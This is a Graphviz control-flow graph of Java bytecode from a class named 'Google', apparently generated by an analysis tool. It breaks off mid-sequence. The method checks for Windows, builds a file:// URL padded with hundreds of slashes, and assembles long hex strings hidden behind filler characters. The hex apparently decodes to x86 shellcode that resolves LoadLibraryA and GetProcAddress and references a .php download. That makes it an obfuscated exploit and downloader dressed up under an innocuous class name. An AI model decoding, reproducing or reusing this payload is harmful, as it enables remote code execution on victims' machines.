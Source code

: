 digraph "" {
    "r0 := @this: Google"
    "push 47"
    "r0 := @this: Google"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "staticinvoke <Google: java.lang.String repeat(char,int)>"
    "push 302"->"staticinvoke <Google: java.lang.String repeat(char,int)>";
    "store.r r129"
    "staticinvoke <Google: java.lang.String repeat(char,int)>"->"store.r r129";
    "push \"o<<<<<s<<.n<a<<<<<m<e\""
    "store.r r129"->"push \"o<<<<<s<<.n<a<<<<<m<e\"";
    "push \"<\""
    "push \"o<<<<<s<<.n<a<<<<<m<e\""->"push \"<\"";
    "push \"\""
    "push \"<\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"MMMMwin\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"MMMMwin\"";
    "push \"M\""
    "push \"MMMMwin\""->"push \"M\"";
    "push \"M\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "ifge new java.lang.StringBuilder"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"ifge new java.lang.StringBuilder";
    "return"
    "ifge new java.lang.StringBuilder"->"return";
    "new java.lang.StringBuilder"
    "ifge new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"fYYYYileY:YYY/YYY/\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"fYYYYileY:YYY/YYY/\"";
    "push \"Y\""
    "push \"fYYYYileY:YYY/YYY/\""->"push \"Y\"";
    "push \"Y\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r129"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r129";
    "load.r r129"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"rrrrZ%Z%rrrrZ%rrrrZrrr%Zrrrrrr%rrrrZ%rrr\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"rrrrZ%Z%rrrrZ%rrrrZrrr%Zrrrrrr%rrrrZ%rrr\"";
    "push \"r\""
    "push \"rrrrZ%Z%rrrrZ%rrrrZrrr%Zrrrrrr%rrrrZ%rrr\""->"push \"r\"";
    "push \"r\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r129";
    "store.r r129"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"5tt0t535ttt15tttt2tttt56575tttttt59CE8tttt000tt\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"5tt0t535ttt15tttt2tttt56575tttttt59CE8tttt000tt\"";
    "push \"t\""
    "push \"5tt0t535ttt15tttt2tttt56575tttttt59CE8tttt000tt\""->"push \"t\"";
    "push \"t\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0l0lll0llll0lllllll05D83llllEllllllDll0lDlll31C0ll640l3403l0lllll780C8llllBl4lll00C8lB70ll1llllllllCADlll8Bl4008llEllBll0ll98Bllll40llll348D\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0l0lll0llll0lllllll05D83llllEllllllDll0lDlll31C0ll640l3403l0lllll780C8llllBl4lll00C8lB70ll1llllllllCADlll8Bl4008llEllBll0ll98Bllll40llll348D\"";
    "push \"l\""
    "push \"0l0lll0llll0lllllll05D83llllEllllllDll0lDlll31C0ll640l3403l0lllll780C8llllBl4lll00C8lB70ll1llllllllCADlll8Bl4008llEllBll0ll98Bllll40llll348D\""->"push \"l\"";
    "push \"l\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4;;;;0;;;7C8B40;;;;3;;;C;5;;;;657BE;5E;;;;;0;1;;;;;;;0;00;001EE;;;B;;;;F;;;4E010;;0;;;;0;;001EF;;;E8D;;;;60100;;0;;0;;5;F5E89E;;;;;;;A;8\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4;;;;0;;;7C8B40;;;;3;;;C;5;;;;657BE;5E;;;;;0;1;;;;;;;0;00;001EE;;;B;;;;F;;;4E010;;0;;;;0;;001EF;;;E8D;;;;60100;;0;;0;;5;F5E89E;;;;;;;A;8\"";
    "push \";\""
    "push \"4;;;;0;;;7C8B40;;;;3;;;C;5;;;;657BE;5E;;;;;0;1;;;;;;;0;00;001EE;;;B;;;;F;;;4E010;;0;;;;0;;001EF;;;E8D;;;;60100;;0;;0;;5;F5E89E;;;;;;;A;8\""->"push \";\"";
    "push \";\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"wwww1Cwwww25Ewwww0wwww1www00wwww005268ww8www00www00wwww0www00FwwwwFww95wwww4Ew\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"wwww1Cwwww25Ewwww0wwww1www00wwww005268ww8www00www00wwww0www00FwwwwFww95wwww4Ew\"";
    "push \"w\""
    "push \"wwww1Cwwww25Ewwww0wwww1www00wwww005268ww8www00www00wwww0www00FwwwwFww95wwww4Ew\""->"push \"w\"";
    "push \"w\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"01iiii00iii0iiii089EiiA8i1Cii2iii5iEiiii0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"01iiii00iii0iiii089EiiA8i1Cii2iii5iEiiii0\"";
    "push \"i\""
    "push \"01iiii00iii0iiii089EiiA8i1Cii2iii5iEiiii0\""->"push \"i\"";
    "push \"i\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"10000rrr3rr1F60r1rrrrCrr28Arrr9rrrrC3rrr563rrrrrrrr0rrrrrrrr200rrrr0rrr080FB007r4rrrr0r688rr1C3246EBErrECrrrr60432rrrr0r0r8rrrr9rrErrA8rrrr1C2rrrr4rr50r20rr0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"10000rrr3rr1F60r1rrrrCrr28Arrr9rrrrC3rrr563rrrrrrrr0rrrrrrrr200rrrr0rrr080FB007r4rrrr0r688rr1C3246EBErrECrrrr60432rrrr0r0r8rrrr9rrErrA8rrrr1C2rrrr4rr50r20rr0\"";
    "push \"10000rrr3rr1F60r1rrrrCrr28Arrr9rrrrC3rrr563rrrrrrrr0rrrrrrrr200rrrr0rrr080FB007r4rrrr0r688rr1C3246EBErrECrrrr60432rrrr0r0r8rrrr9rrErrA8rrrr1C2rrrr4rr50r20rr0\""->"push \"r\"";
    "push \"r\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"mmm0052mmFmFmmm9mmmm5mmm5mm2m010m00mmmmm0mm89mmmEmAm8mmm1mC2mmmmmm5mmm00m200mmmmm0mm05mmm2mmm50FmmmmmmmF9556mmmmmmm010mmmm0mmmm00m6A0mmmm0mmmm6mmmmA0mm0mm8mm9EAm81mmmmC25E0m1mm0mmmm000528mm9EAmmmmmm8mmmm1mmmC2mmm\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"mmm0052mmFmFmmm9mmmm5mmm5mm2m010m00mmmmm0mm89mmmEmAm8mmm1mC2mmmmmm5mmm00m200mmmmm0mm05mmm2mmm50FmmmmmmmF9556mmmmmmm010mmmm0mmmm00m6A0mmmm0mmmm6mmmmA0mm0mm8mm9EAm81mmmmC25E0m1mm0mmmm000528mm9EAmmmmmm8mmmm1mmmC2mmm\"";
    "push \"m\""
    "push \"mmm0052mmFmFmmm9mmmm5mmm5mm2m010m00mmmmm0mm89mmmEmAm8mmm1mC2mmmmmm5mmm00m200mmmmm0mm05mmm2mmm50FmmmmmmmF9556mmmmmmm010mmmm0mmmm00m6A0mmmm0mmmm6mmmmA0mm0mm8mm9EAm81mmmmC25E0m1mm0mmmm000528mm9EAmmmmmm8mmmm1mmmC2mmm\""->"push \"m\"";
    "push \"m\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7M80MMM2MMMM0M0MM005MMMM26MMMMAMM0MM0FFMMMDMM06AMMMM0MMM589MMMEAMMMMMMM8MMMMM1MMMMC25MME0MM10MMMM0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7M80MMM2MMMM0M0MM005MMMM26MMMMAMM0MM0FFMMMDMM06AMMMM0MMM589MMMEAMMMMMMM8MMMMM1MMMMC25MME0MM10MMMM0\"";
    "push \"7M80MMM2MMMM0M0MM005MMMM26MMMMAMM0MM0FFMMMDMM06AMMMM0MMM589MMMEAMMMMMMM8MMMMM1MMMMC25MME0MM10MMMM0\""->"push \"M\"";
    "push \"M\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"G0052FF95GGG5GGAGGG0GGG10000GGG89GGGGEA81GGGGCGG25EG0GGGG1GGGG0G0G0G05GG2688GGGG0GG00G0GGG0GG00GFF95GGG4GEGG0GGGGGGG1GGG00G00GGG89GGGGEGGGGGAGG81C\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"G0052FF95GGG5GGAGGG0GGG10000GGG89GGGGEA81GGGGCGG25EG0GGGG1GGGG0G0G0G05GG2688GGGG0GG00G0GGG0GG00GFF95GGG4GEGG0GGGGGGG1GGG00G00GGG89GGGGEGGGGGAGG81C\"";
    "push \"G\""
    "push \"G0052FF95GGG5GGAGGG0GGG10000GGG89GGGGEA81GGGGCGG25EG0GGGG1GGGG0G0G0G05GG2688GGGG0GG00G0GGG0GG00GFF95GGG4GEGG0GGGGGGG1GGG00G00GGG89GGGGEGGGGGAGG81C\""->"push \"G\"";
    "push \"G\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"2S5E0100S00SSS31SSSSF6SSSSSS01SSSSCS28A9SSSC3S56SESS02SSS0000SSS8S0FBSS007SSSS406881SSSSC3SSSSSSS24SSSS6SSSEBSSEESSSSCSS6S0S432SSSS0089EASSSS8SS1SSC245SS02SSS0S00S0SSS5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"2S5E0100S00SSS31SSSSF6SSSSSS01SSSSCS28A9SSSC3S56SESS02SSS0000SSS8S0FBSS007SSSS406881SSSSC3SSSSSSS24SSSS6SSSEBSSEESSSSCSS6S0S432SSSS0089EASSSS8SS1SSC245SS02SSS0S00S0SSS5\"";
    "push \"S\""
    "push \"2S5E0100S00SSS31SSSSF6SSSSSS01SSSSCS28A9SSSC3S56SESS02SSS0000SSS8S0FBSS007SSSS406881SSSSC3SSSSSSS24SSSS6SSSEBSSEESSSSCSS6S0S432SSSS0089EASSSS8SS1SSC245SS02SSS0S00S0SSS5\""->"push \"S\"";
    "push \"S\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"2FFzzz95zz520zzzzzzz100zzz00zz89EAz81Cz2zzzz5zzzz0020z0zzzz0zzz0zzz52zzz5zz0zzzzFzzzF9556010000zz6A0z06A0zzz0z89EA8zz1zzzz\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"2FFzzz95zz520zzzzzzz100zzz00zz89EAz81Cz2zzzz5zzzz0020z0zzzz0zzz0zzz52zzz5zz0zzzzFzzzF9556010000zz6A0z06A0zzz0z89EA8zz1zzzz\"";
    "push \"z\""
    "push \"2FFzzz95zz520zzzzzzz100zzz00zz89EAz81Cz2zzzz5zzzz0020z0zzzz0zzz0zzz52zzz5zz0zzzzFzzzF9556010000zz6A0z06A0zzz0z89EA8zz1zzzz\""->"push \"z\"";
    "push \"z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"C2VV5E010VVV000VVVVVVVV5VV28VVV9EA81CVVV2VAV6VVVV02V0VVVVV0VVVVVVV005VVVV26VVVAV00VFFDVVVVVVVV06AVVVV0VV589EVVVVAVVVVVV8VVV1CVVV25E0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"C2VV5E010VVV000VVVVVVVV5VV28VVV9EA81CVVV2VAV6VVVV02V0VVVVV0VVVVVVV005VVVV26VVVAV00VFFDVVVVVVVV06AVVVV0VV589EVVVVAVVVVVV8VVV1CVVV25E0\"";
    "push \"V\""
    "push \"C2VV5E010VVV000VVVVVVVV5VV28VVV9EA81CVVV2VAV6VVVV02V0VVVVV0VVVVVVV005VVVV26VVVAV00VFFDVVVVVVVV06AVVVV0VV589EVVVVAVVVVVV8VVV1CVVV25E0\""->"push \"V\"";
    "push \"V\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1:::0000:5::2:::F:F95:5A01::0:0:0:09D5::::D:::5F:5E:5A5::::95B::5::8C3:000::::0:::::0:0000:0:0000::::0::000:::000000:0:::00000::::004::7:6574::::546:56::D:::::7:05::0::::6:::1:7:4:::6::8::::4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1:::0000:5::2:::F:F95:5A01::0:0:0:09D5::::D:::5F:5E:5A5::::95B::5::8C3:000::::0:::::0:0000:0:0000::::0::000:::000000:0:::00000::::004::7:6574::::546:56::D:::::7:05::0::::6:::1:7:4:::6::8::::4\"";
    "push \":\""
    "push \"1:::0000:5::2:::F:F95:5A01::0:0:0:09D5::::D:::5F:5E:5A5::::95B::5::8C3:000::::0:::::0:0000:0:0000::::0::000:::000000:0:::00000::::004::7:6574::::546:56::D:::::7:05::0::::6:::1:7:4:::6::8::::4\""->"push \":\"";
    "push \":\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"10GGGGGGG0G4CGG6FGGGG6164GGGG4GGGGCGGGGGG696GG2GG726GG172GGGG79GGG4GGG10047GGG6GG5GGGG7GGGG45G0726FGG6GGG341GGGG64GGGG6472GGG65737GG30GGG05GGGG7GGG6GGGG9GG6GGGEGGG4GGG57GGG86563GGG\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"10GGGGGGG0G4CGG6FGGGG6164GGGG4GGGGCGGGGGG696GG2GG726GG172GGGG79GGG4GGG10047GGG6GG5GGGG7GGGG45G0726FGG6GGG341GGGG64GGGG6472GGG65737GG30GGG05GGGG7GGG6GGGG9GG6GGGEGGG4GGG57GGG86563GGG\"";
    "push \"10GGGGGGG0G4CGG6FGGGG6164GGGG4GGGGCGGGGGG696GG2GG726GG172GGGG79GGG4GGG10047GGG6GG5GGGG7GGGG45G0726FGG6GGG341GGGG64GGGG6472GGG65737GG30GGG05GGGG7GGG6GGGG9GG6GGGEGGG4GGG57GGG86563GGG\""->"push \"G\"";
    "push \"G\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00BBcccc89cccccccFc28cccc9Fcccc7cc30C0AEcccc7ccc5cFcDcccccccc29F7cc8cccc9cF9c3cccc1ccCcc0BE3cC0c0cccc0000cc03cccB51cBcc02cccc000066AcccccccD03ccc851B0c20cccc0cc008B707ccc8cc83Cccc6cccccccc1ccC03ccB51ccccBcccc0cccc2ccc0cccc00cc0cccc8ccccDBccDcccc1Fcccc0200ccc00AccccDccccccc0ccc3851ccccBcc0c2ccc0cc0cccc0c0ccccABccccAcccD03ccc8cccc51ccBc0cccc2cccc0000cccc5cc0ABccccAcccD03cccc8ccccc5ccc1cccB020\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00BBcccc89cccccccFc28cccc9Fcccc7cc30C0AEcccc7ccc5cFcDcccccccc29F7cc8cccc9cF9c3cccc1ccCcc0BE3cC0c0cccc0000cc03cccB51cBcc02cccc000066AcccccccD03ccc851B0c20cccc0cc008B707ccc8cc83Cccc6cccccccc1ccC03ccB51ccccBcccc0cccc2ccc0cccc00cc0cccc8ccccDBccDcccc1Fcccc0200ccc00AccccDccccccc0ccc3851ccccBcc0c2ccc0cc0cccc0c0ccccABccccAcccD03ccc8cccc51ccBc0cccc2cccc0000cccc5cc0ABccccAcccD03cccc8ccccc5ccc1cccB020\"";
    "push \"c\""
    "push \"00BBcccc89cccccccFc28cccc9Fcccc7cc30C0AEcccc7ccc5cFcDcccccccc29F7cc8cccc9cF9c3cccc1ccCcc0BE3cC0c0cccc0000cc03cccB51cBcc02cccc000066AcccccccD03ccc851B0c20cccc0cc008B707ccc8cc83Cccc6cccccccc1ccC03ccB51ccccBcccc0cccc2ccc0cccc00cc0cccc8ccccDBccDcccc1Fcccc0200ccc00AccccDccccccc0ccc3851ccccBcc0c2ccc0cc0cccc0c0ccccABccccAcccD03ccc8cccc51ccBc0cccc2cccc0000cccc5cc0ABccccAcccD03cccc8ccccc5ccc1cccB020\""->"push \"c\"";
    "push \"c\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0::00A:B5E31::DBA:::D::56038:5:::1B::::0::20::0:0::08:::::9:::::C6:::8:9D75:::1:FC::F:::3::::A65::::::9::::74:::04:::::5::E::::43::EBE::::9:::5E9::3:D:::1::::::E:::0:::::03:85:2::::7:::0:::20::0:0:::::::03::::1F69::::666:::ADC1:::E0::::0:::2::0:38:5::::1::F020:0:::0089\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0::00A:B5E31::DBA:::D::56038:5:::1B::::0::20::0:0::08:::::9:::::C6:::8:9D75:::1:FC::F:::3::::A65::::::9::::74:::04:::::5::E::::43::EBE::::9:::5E9::3:D:::1::::::E:::0:::::03:85:2::::7:::0:::20::0:0:::::::03::::1F69::::666:::ADC1:::E0::::0:::2::0:38:5::::1::F020:0:::0089\"";
    "push \"0::00A:B5E31::DBA:::D::56038:5:::1B::::0::20::0:0::08:::::9:::::C6:::8:9D75:::1:FC::F:::3::::A65::::::9::::74:::04:::::5::E::::43::EBE::::9:::5E9::3:D:::1::::::E:::0:::::03:85:2::::7:::0:::20::0:0:::::::03::::1F69::::666:::ADC1:::E0::::0:::2::0:38:5::::1::F020:0:::0089\""->"push \":\"";
    "push \":\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \":C6AD:::::03::8:5:1B020:::0:::00::C\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \":C6AD:::::03::8:5:1B020:::0:::00::C\"";
    "push \":C6AD:::::03::8:5:1B020:::0:::00::C\""->"push \":\"";
    "push \":\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"3yyEyyyyByyyy1yyy0yyyy0yy00yy00yyy00yyy0yyy0yyy0y0000yyyy00yy0yy00yyyyyy0y00yyyyyy000yy000yyyy0yyy00yyyyyy08yyyy98yyyy5yy1yyyB0yyyy20yyyy0005657Eyyy8yy58yyyyyyyFyyFyyyFyyyyyyFyyyyFF5F5EyyyyAyyyyB01C\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"3yyEyyyyByyyy1yyy0yyyy0yy00yy00yyy00yyy0yyy0yyy0y0000yyyy00yy0yy00yyyyyy0y00yyyyyy000yy000yyyy0yyy00yyyyyy08yyyy98yyyy5yy1yyyB0yyyy20yyyy0005657Eyyy8yy58yyyyyyyFyyFyyyFyyyyyyFyyyyFF5F5EyyyyAyyyyB01C\"";
    "push \"y\""
    "push \"3yyEyyyyByyyy1yyy0yyyy0yy00yy00yyy00yyy0yyy0yyy0y0000yyyy00yy0yy00yyyyyy0y00yyyyyy000yy000yyyy0yyy00yyyyyy08yyyy98yyyy5yy1yyyB0yyyy20yyyy0005657Eyyy8yy58yyyyyyyFyyFyyyFyyyyyyFyyyyFF5F5EyyyyAyyyyB01C\""->"push \"y\"";
    "push \"y\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ET8TTTT0TTTT3TTTETTTTBTTBTTT7T4TTTT02TETTTTBTTTTETTTDC35TTTT5524CT4TD4TTTF4ETT2TETTT444C4TTCTT00TTTTTTT55524TTTTC4TTT4TTTT6F7TTTT7TT6TT\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ET8TTTT0TTTT3TTTETTTTBTTBTTT7T4TTTT02TETTTTBTTTTETTTDC35TTTT5524CT4TD4TTTF4ETT2TETTT444C4TTCTT00TTTTTTT55524TTTTC4TTT4TTTT6F7TTTT7TT6TT\"";
    "push \"T\""
    "push \"ET8TTTT0TTTT3TTTETTTTBTTBTTT7T4TTTT02TETTTTBTTTTETTTDC35TTTT5524CT4TD4TTTF4ETT2TETTT444C4TTCTT00TTTTTTT55524TTTTC4TTT4TTTT6F7TTTT7TT6TT\""->"push \"T\"";
    "push \"T\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"AE6C6F61AA645AAAA4AA6AAAAAAFAAA4669AAA6AAAACAAAA65AAAA410A0A70A6AA46AAA675706AA4AAAA2AE65AA7AAAAA8AA65A00AA637AAAA2AAAA61AAA7368A2E7068AAA70AAAA0AA0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"AE6C6F61AA645AAAA4AA6AAAAAAFAAA4669AAA6AAAACAAAA65AAAA410A0A70A6AA46AAA675706AA4AAAA2AE65AA7AAAAA8AA65A00AA637AAAA2AAAA61AAA7368A2E7068AAA70AAAA0AA0\"";
    "push \"A\""
    "push \"AE6C6F61AA645AAAA4AA6AAAAAAFAAA4669AAA6AAAACAAAA65AAAA410A0A70A6AA46AAA675706AA4AAAA2AE65AA7AAAAA8AA65A00AA637AAAA2AAAA61AAA7368A2E7068AAA70AAAA0AA0\""->"push \"A\"";
    "push \"A\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
